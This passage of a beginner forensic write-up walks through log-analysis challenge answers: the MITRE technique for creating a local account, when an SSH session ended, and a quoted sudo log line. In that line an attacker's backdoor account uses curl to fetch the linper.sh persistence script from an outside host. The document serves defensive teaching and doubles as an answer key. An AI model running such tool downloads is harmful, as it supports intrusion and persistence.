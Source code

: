 ### Step 6: Understanding the Attack Technique
**Question**: What MITRE ATT&CK technique was used?

**Answer**: `T1136.001`

**Explanation**:
- MITRE ATT&CK is a framework that catalogs cybersecurity attack techniques
- T1136.001 specifically refers to "Create Account: Local Account" You can find more details here: https://attack.mitre.org/techniques/T1136/001/
- This helps security professionals understand and defend against common attack patterns

---

### Step 7: When Did the First Session End?
**Question**: When did the attacker's first SSH session end?

**Answer**: `2024-03-06 06:37:24`

**What to Look For**:
```
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

**Beginner Explanation**:
- `session closed` = The login session ended
- Session 37 was removed from the system
- The attacker logged out of their first session

---

### Step 8: Using the Backdoor Account
**Question**: What command did the attacker run using their new privileged account?

**Answer**: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

**What to Look For**:
```
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

**Beginner Explanation**:
- The attacker logged back in using their backdoor account "cyberjunkie"
- `sudo` = Command to run something with administrator privileges
- `curl` = Command to download files from the internet
- They downloaded a script called "linper.sh" (likely a malicious tool)

---

## Key Learning Points

### What This Investigation Teaches Us:

1. **Log Analysis is Detective Work**: Every action leaves traces in system logs
2. **Brute Force Attacks Leave Obvious Patterns**: Multiple failed attempts from the same IP
3. **Attackers Create Persistence**: They make backdoor accounts to maintain access
4. **Privilege Escalation**: Getting the most powerful account possible (root)
5. **Covering Their Tracks**: Using their own accounts instead of the original compromised one
